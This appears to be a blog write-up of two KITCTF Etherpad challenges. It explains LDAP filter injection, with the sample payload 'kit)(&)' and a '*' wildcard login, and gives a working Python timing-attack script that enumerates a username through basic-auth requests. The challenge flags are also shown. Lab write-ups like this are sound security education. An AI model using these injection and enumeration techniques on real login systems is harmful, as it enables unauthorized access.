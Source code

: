 ```yaml
---
layout: post
current: post
cover: assets/kitctf/etherpad/cover.webp
navigation: True
title: "New!!!! Fun!!!!"
date: 2023-01-04 23:00:00
tags: [KITCTFCTF, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


LDAP me up, bro.

## Etherpad Part 1
We are given a link to an Etherpad instance and the password for an account. However, we are told that the username is unknown.

We are also told that the server is running Etherpad 1.8.18 with [ep_ldapauth 0.4.0](https://github.com/tykeal/ep_ldapauth/tree/42cd54c8f65ebb4b4c061b682be2acaf5486e0bc). Finally, we are given a JSON file titled "settings." This contained the LDAP auth settings. I looked into them, but didn't find anything worthwhile - pretty standard stuff.

### LDAP?

Let's talk about LDAP authentication. LDAP, or Lightweight Directory Access Protocol, is a "mature, flexible, and well supported standards-based mechanism for interacting with directory servers," according to [ldap.com](https://ldap.com). Generally, it is used to store hierarchical data about users, groups, and applications. Directory servers, notably, store trees of entries and are therefore NoSQL databases. Each LDAP entry has three primary components: a name (uniquely identifies entry and its position on the directory information tree hierarchy - similar to a file path), a collection of attributes, and a collection of object classes.

This is cool and all, but can we exploit it in some way?

### Putting the L in LDAP, amiright? Please laugh.

That's right baby, LDAP injection exists. And it's pretty straightforward, too - check out [this article](https://brightsec.com/blog/ldap-injection/) on LDAP injection in its many forms. It works just the same as SQL injection, but takes into account the LDAP protocol structure. For example, the statement ```(&(USER=Uname)(PASSWORD=Pwd))``` is often used in authentication. The ```&``` symbol checks to make sure both of the following statements are true; ie, both ```USER=Uname``` and ```PASSWORD=Pwd```. So, let's just say we need to log into the account with the username `kit`, but we do not know the password. We can input ```kit)(&)```, and the full query will become ```(&(USER=kit)(&))(PASSWORD=Pwd))```. This will only compare ```USER=kit``` and ```&```, which is the ```TRUE``` filter in the LDAP protocol. Therefore, the result will be true and the user will gain access without the password.

### The Solve
That's great and all, but in our case, we have the password, but we do not have the username. So, I started playing around with what I learned. An important filter in LDAP is ```*```. Similarly to SQL, it is the "all" filter. So, I tried inputting * as the username. Lo and behold, it worked! The flag was at the bottom of the page: `KCTF{nobody_escapes_ldap_filters}`

That got 16 solves. Come on, people.

## Etherpad Part 2

Alright, this is where it gets interesting. For this one, we know that the username is identical to the password for every account. Unfortunately, we do not know either. We do know that the username/password begins with "kctf{" and, using our amazing deductive skills, probably ends with "}". We also know that the flag format is ```kctf\{[a-z0-9{}_.]*\}```. 

### My Attempt
I should clarify - I did not figure this one out. I tried for ages to find the correct LDAP injection to crack this puzzle. I tried ```kctf\{*\}``` for the username, as it would get every entry of form "kctf{...}". I tried ```{{username}}``` for the password. I tried some tricky stuff with ANDs and ORs that were based on the attacks mentioned in the article above. Nothing seemed to work. But did I give up? Yes. After a few hours of scouring the internet, reading the ```settings.json``` file, and searching for version-specific exploits, I opted to take a nap rather than torment myself further. I am nothing if not a quitter.

### The Solution
The great news is I was not even close. The solution was not in LDAP injection at all - in fact, it was a TIMING ATTACK! So cool! Such a fan of that. Wow. You will notice that if you input a random word into the username field of the authentication, it takes around 1.8 seconds for a response. However, if you type in something that finds users, for example ```kctf\{*```, it will take upwards of 2.3 seconds for a response to be returned. We can use this to create a bruteforce attack:
* Cycle through all of the possible characters
* For each character char, test signing in with ```previous_username + char + *```
* If the response takes longer than 2.3 seconds, append this character to previous_username and try again
* Keep going until the character "}" is appended
It is important to note that we can automate this by testing usernames with the URL ```http://USERNAME:x@etherpad2.kitctf.me:9002/```. This will attempt to sign in with username ```USERNAME``` and will have the correct timing properties.

Here is the code for the correct solution, written by @eta#0667 on Discord.
```py
#!/usr/bin/env python3
import requests, time

# Possible characters in the username
character_list = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '\.', '_', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '\{', '\}']

# If the user exists, request will take longer than this many seconds
threshhold=2.3

flag = "kctf\{"
while True:
    for x in character_list:
        flag_try = flag+x
        response = requests.get("http://"+flag_try+"*:x@etherpad2.kitctf.me:9002/")
        elapsed = response.elapsed.total_seconds()
        print(f"{flag_try}:{response.status_code}:{elapsed}")
        if elapsed > threshhold:
            print(f"Found {flag_try}")
            flag = flag_try
            break
```
After a decent chunk of time this thing gave me the solution: `kctf{user_enumer4t1on_zer0day}`.

## Conclusion
I found these two challenges to be incredibly interesting simply because I had no prior experience with LDAP authentication. The first one was fun because I got to do a deep dive in LDAP injection, and then find out the solution required maybe 2 minutes of research. The second had a really cool solution, although I'm not sure I would have ever guessed a timing attack. Plus, I have the worst WiFi known to man so getting the timing attack to run correctly for, like, thirty minutes was a struggle. That's on me though. I had fun with these challenges and learned a lot!
